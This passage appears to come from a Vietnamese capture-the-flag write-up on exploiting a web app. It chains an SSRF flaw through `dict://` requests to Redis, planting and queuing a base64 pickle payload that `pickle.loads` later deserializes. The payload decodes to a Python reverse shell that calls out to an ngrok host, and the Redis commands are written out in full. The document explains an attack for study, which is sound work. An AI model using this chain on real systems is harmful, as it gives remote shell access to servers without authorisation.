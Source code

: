 Hàm `get_job_queue` thì được gọi ở route `/tracks/<int:job_id>/status`

Một nơi khác cũng gọi đến `pickle.loads` là `get_work_item`
```python 
def get_work_item():
    job_id = store.rpop(env('REDIS_QUEUE'))
    if not job_id:
        return False

    data = store.hget(env('REDIS_JOBS'), job_id)

    job = pickle.loads(base64.b64decode(data))
    return job
```

`get_work_item` được gọi bởi `run_worker`, `run_worker` được chạy mỗi 10s

tại cả 2 chỗ đều lấy đoạn data này ra để đưa vào `pickle.loads`:
```python
data = {
    'job_id': int(job_id),
    'trap_name': trapName,
    'trap_url': trapURL,
    'completed': 0,
    'inprogress': 0,
    'health': 0
}
```

Vấn đề ở đây là ta không kiểm soát được toàn bộ nó mà chỉ kiểm soát được một vài phần thôi. Tuy nhiên có 2 thứ ta có thể lợi dụng:
- hàm `request` sẽ gửi request đến một url bất kì mà không kiểm tra (SSRF)
- Redis là một text protocol, ta có thể lợi dụng các protocol như `dict` hay `gopher` để tương tác với nó

Vậy ta có thể dùng SSRF để đưa payload đến Redis rồi để app deserialize với `pickle.loads`

```!
dict://127.0.0.1:6379/HSET:jobs:130:"gASV7AAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjNFweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjAudGNwLmFwLm5ncm9rLmlvIiwxMjEwNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIpJ5SFlFKULg=="
```
Sau khi `request` được chạy thì một record mới chứa payload và job_id là 130 sẽ xuất hiện trong redis. Tiếp theo là:

```
dict://127.0.0.1:6379/RPUSH:jobqueue:"130"
```


Lệnh trên sẽ đưa job_id 130 vào jobqueue, sau 10s thì `request` sẽ được chạy và thực thi lệnh trên, lúc đó thì job_id `130` sẽ nằm trên đỉnh, sau khi `rpop` ra thì nó sẽ dùng `HGET` tìm tới id `130` trong `jobs`.

Sau khi truy cập vào endpoint `/api/tracks/130/status` thì payload sẽ được trigger và ta sẽ có được reverse shell. Ngoài ra thì vào lúc mà `get_work_item` chạy thì cũng sẽ gọi `pickle.loads` và ta cũng sẽ có được reverse shell
